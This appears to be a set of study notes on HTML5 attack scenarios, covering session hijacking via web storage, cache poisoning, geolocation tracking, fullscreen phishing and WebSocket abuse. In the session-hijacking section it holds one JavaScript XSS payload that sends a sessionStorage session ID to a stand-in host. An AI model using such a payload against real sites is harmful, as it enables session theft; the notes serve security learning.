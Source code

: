 ## Web Storage -- Attack Scenarios
The attack scenarios may vary from **Session Hijacking, User Tracking, Disclosure of Confidential Data**, as well as a new way to **store attack vectors**.

### Session Hijacking
If a dev chooses to store session IDs by using **sessionStorage** instead of cookies, its still possible to perform session hijacking by leveraging an XSS flaw.
```js
new Image().src="http://hacker.site/SID?"+escape(sessionStorage.getItem('sessionID'));
// usually was document.cookie
```

Web storage solutions do not implement security mechanisms to mitigate the risk of malicious access to the stored information (see HttpOnly)

### Offline Web Application -- Attack Scenarios
- With Offline Web apps, the most critical security issue is **Cache Poisoning**.
- The offile apps can also cache SSL-resources and the root directory of a website.

### Device Access
A feature introduced by the HTML5 specs is **Geolocation API**

→  http://www.w3.org/TR/geolocation-API/

> This is a way to provide scripted access to identify a users positions based on GPS coordinates (lat and long)

### Geolocation -- Attack Scenarios
This API access can not only be used For **user tracking**, physical and cross-domain, but also For **breaking anonymity**.

## Fullscreen Mode -- Attack Scenario
Another API that allows a single element (images, videos, etc) to be viewed in full-screnn mode. 

→ https://dvcs.w3.org/hg/fullscreen/raw-file/tip/Overview.html

- This API can be used For **Phishing Attacks**.
- Example, sending a phishing page in full screen mode and loading a fake victim website in the background with a image that simulates the browser header, adress bar, etc.



## Performance, Integration & Connectivity
Many new features such as:

- **Drag and Drop, HML editing and Workers**( Web and Shared)
Improvements are also made on communications, with features such as:
- **WebSocket** and **XMLHttpRequest2**.

### Attack Scenarios
**Interactive XSS**, with Drag and Drop, to **Remove Shell, port scanning** and **web-based botnets** exploiting the new communication features like *WebSocket*.
